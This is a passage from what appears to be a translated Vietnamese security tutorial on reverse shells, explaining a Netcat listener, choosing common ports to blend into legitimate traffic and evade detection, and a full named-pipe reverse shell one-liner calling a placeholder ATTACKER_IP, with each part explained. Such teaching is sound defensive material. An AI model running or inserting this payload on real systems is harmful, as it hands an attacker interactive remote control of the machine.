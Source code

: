 

Lệnh trên sử dụng **-l** tùy chọn để chỉ định **Netcat** lắng nghe hoặc chờ kết nối. **-v** Tùy chọn này kích hoạt chế độ chi tiết. **-n** Tùy chọn này ngăn các kết nối sử dụng DNS để tra cứu, do đó nó sẽ không phân giải bất kỳ tên máy chủ nào mà sẽ sử dụng địa chỉ IP. Cuối cùng, **-p** cờ chỉ ra cổng sẽ được sử dụng để chờ kết nối, trong trường hợp trên là cổng 443 .



Bất kỳ cổng nào cũng có thể được sử dụng để chờ kết nối, nhưng kẻ tấn công và người kiểm tra thâm nhập có xu hướng sử dụng các cổng đã biết được sử dụng bởi các ứng dụng khác như 53 , 80 , 8080 , 443 , 139 hoặc 445. Điều này nhằm mục đích trộn lẫn reverse shell với lưu lượng hợp pháp và tránh bị các thiết bị bảo mật phát hiện.



**Truy cập Shell ngược**

Sau khi thiết lập xong trình lắng nghe, kẻ tấn công sẽ thực thi cái gọi là payload shell ngược. Payload này thường lợi dụng lỗ hổng hoặc quyền truy cập trái phép do kẻ tấn công cấp và thực thi một lệnh sẽ phơi bày shell qua mạng. Có nhiều payload khác nhau tùy thuộc vào công cụ và hệ điều hành của hệ thống bị xâm nhập. Chúng ta có thể tìm hiểu một số payload tại đây .

(**https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet**)



Ví dụ, chúng ta hãy phân tích một tải trọng mẫu có tên là vỏ ngược đường ống , như được hiển thị bên dưới.

**rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>\&1 | nc ATTACKER\_IP ATTACKER\_PORT >/tmp/f**

Giải thích về Tải trọng

* **rm -f /tmp/f**- Lệnh này xóa bất kỳ tệp đường ống có tên nào hiện có tại **/tmp/f/**. Điều này đảm bảo rằng tập lệnh có thể tạo đường ống có tên mới mà không có xung đột.
* **mkfifo /tmp/f**- Lệnh này tạo một đường ống có tên, hay FIFO (vào trước, ra trước), tại **/tmp/f**. Đường ống có tên cho phép giao tiếp hai chiều giữa các tiến trình. Trong bối cảnh này, nó hoạt động như một đường dẫn cho đầu vào và đầu ra.
* **cat /tmp/f**- Lệnh này đọc dữ liệu từ đường ống được đặt tên. Lệnh này chờ dữ liệu đầu vào có thể được gửi qua đường ống.
* **| bash -i 2>\&1**- Đầu ra của  **cat** được chuyển đến một phiên bản shell **( bash -i)**, cho phép kẻ tấn công thực thi các lệnh một cách tương tác. **2>\&1** Chuyển hướng lỗi chuẩn đến đầu ra chuẩn, đảm bảo rằng các thông báo lỗi được gửi lại cho kẻ tấn công.
* **| nc ATTACKER\_IP ATTACKER\_PORT >/tmp/f**- Phần này chuyển đầu ra của shell qua **nc(Netcat)** đến địa chỉ IP của kẻ tấn công **( ATTACKER\_IP)** trên cổng của kẻ tấn công **( ATTACKER\_PORT).**
* **>/tmp/f** - Phần cuối cùng này gửi đầu ra của lệnh trở lại đường ống được đặt tên, cho phép giao tiếp hai chiều.

Tải trọng ở trên có thể hiển thị shell **bash** thông qua mạng tới trình lắng nghe mong muốn.



**Kẻ tấn công nhận được vỏ đạn**

Sau khi tải trọng trên được thực thi, kẻ tấn công sẽ nhận được một shell ngược , như được hiển thị bên dưới, cho phép chúng thực thi các lệnh như thể chúng đang đăng nhập vào một thiết bị đầu cuối thông thường trong hệ điều hành .



#### **Vỏ ràng buộc(Blind Shell)**
